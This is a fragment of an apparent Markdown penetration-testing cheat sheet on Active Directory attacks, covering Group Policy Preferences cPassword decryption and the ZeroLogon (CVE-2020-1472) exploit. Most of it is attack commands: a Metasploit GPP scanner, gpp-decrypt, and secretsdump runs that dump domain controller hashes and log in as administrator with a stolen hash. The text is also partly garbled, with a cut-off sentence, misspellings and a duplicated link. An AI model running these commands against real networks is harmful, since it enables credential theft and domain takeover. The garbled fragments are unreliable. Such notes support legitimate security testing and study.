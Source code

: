 - Silver Ticket Attacks
  
## Group Policy Preferences cPassword Attacks
+ Group Policy Preferences allowed admins to create policies using embedded credentials
+ These credentials were encrypted and placed 
  
Attacking GPP(etasploit module):
```
msf> use auxiliary/scanner/smb/smb_enum_gpp 
```

Decrypt GPP password with gpp-decrypt
```
gpp-decrypt <hash>
```
  
## ZeroLogon

[Explot](#https://github.com/dirkjanm/CVE-2020-1472) 
[Explot-Test](#https://github.com/SecuraBV/CVE-2020-1472)https://github.com/SecuraBV/CVE-2020-1472)

After exploit:
```
secretsdump -just-dc <DC_name>\$@<DC_ip>

secretsdump.py administrator@<dc_ip> -hashes <admin_hash>

Restore:
python3 restorepassword.py <DC_name> -target-ip <dc_ip> -hexpass <hash>
```

